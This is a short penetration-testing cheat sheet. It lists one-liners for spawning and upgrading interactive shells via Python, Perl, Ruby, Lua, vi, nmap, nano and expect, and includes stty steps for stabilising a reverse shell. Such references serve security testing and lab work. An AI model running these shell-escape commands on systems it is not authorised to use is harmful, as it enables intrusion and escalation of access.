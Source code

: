 #### Python

```echo os.system("/bin/bash")```

```python -c 'import pty; pty.spawn("/bin/bash")'```
-----


#### Perl

```perl -e 'exec "/bin/sh";'```

```exec "/bin/sh"```
-----


#### Ruby

```exec "/bin/sh"```
-----


#### LUA

```os.execute("/bin/sh")```
-----


#### sh

```/bin/sh -i```
-----


#### Vi

```:!bash```

```:set shell=/bin/bash:shell```
-----


#### nmap

```!sh```
-----


#### nano

```ctrl+r ctrl+x /bin/bash```
-----


#### stty (fixed)

*In reverse shell:*

```python -c 'import pty;pty.spawn("/bin/bash")'```

*ctrl+z (to background)*

*In base OS:*

```stty raw -echo```

```reset```

```export SHELL=bash```

```export TERM=xterm-256color```

```stty rows <num> columns <cols>```
-----


#### expect

*cat sh.exp*

```#!/usr/bin/expect```

```spawn sh```

```interact```
-----

